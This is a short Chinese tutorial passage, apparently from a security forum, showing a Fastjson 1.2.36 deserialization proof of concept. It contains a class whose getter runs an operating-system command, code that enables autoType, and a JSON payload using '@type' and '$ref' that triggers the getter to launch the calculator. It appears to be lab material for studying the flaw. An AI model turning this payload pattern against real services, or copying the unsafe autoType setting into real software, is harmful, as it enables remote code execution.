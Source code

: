 JSONPath

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/12/attach-8a31dcc03d6984e0d94818a1a8b65b221e13ad2f.png)

添加依赖

```java
<dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.36</version>
        </dependency>
```

先写一个接受`cmd`参数的`rce`的`Test`类

```java
package org.example;

import java.io.IOException;

/**
 * @Author kilo、冰室/ki10Moc
 * @date 2022/11/14
 * @time 0:06
 * @blog http://ki10.top
 **/
public class Test {
    private String cmd;

    public String getCmd() throws IOException {
        Runtime.getRuntime().exec(cmd);
        return cmd;
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }
}
```

执行函数

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * @Author kilo、冰室/ki10Moc
 * @date 2022/11/14
 * @time 0:10
 * @blog http://ki10.top
 **/
public class TestCalc {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "[{\"@type\":\"org.example.Test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
        Object o = JSON.parse(payload);
    }

}
```
